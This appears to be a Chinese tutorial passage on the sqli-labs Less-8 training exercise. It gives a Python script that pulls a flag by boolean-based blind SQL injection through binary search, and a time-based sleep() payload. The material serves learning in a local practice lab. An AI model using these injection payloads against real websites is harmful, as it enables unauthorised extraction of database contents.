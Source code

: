

获取flag

```python
# 获取flag
import requests
import re
import sys

ans = ''

for i in range(1,20):
    print('*'*15+f'{i}'+'*'*15)
    
    min = 32
    max = 127
    while min != max:
        mid = (min + max)//2
        url = f"http://localhost/sqli-labs/Less-8/?id=1' and ord(substr((select flag from answers.flags where stage=8),{i},1))>{mid} %23"

        print('[*]:',url)
        res = requests.get(url).text

        if max == min+1:
            break

        if re.search("You are in",res):
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
    print(ans)    
```



> [!note]
>
> 如果懒得话，可以一开始就设置for循环得界限为100，虽然运行的久了点，但是数据肯定不会少.......具体有多久，自己猜去吧。



## sleep函数

查询错误返回的页面与正确的页面一摸一样，所以得使用sleep来进行判断。

sleep(5)就是睡眠5秒，不多做说明

手动测试得到payload : `id=1' and if(ord(substr(version(),1,1))=53,sleep(5),1) %23`

与之前的一样，使用python编写脚本，然后进行爆破。

原理很简单，就是通过发送前时间与接收数据之后的时间差，来进行判断，一旦超过了sleep时间，则代表成功。也就是用这个来当作判断条件。

> [!important]
>
> 因为使用时延，所以会导致爆表会消耗大量时间，所以不会给出所有内容。
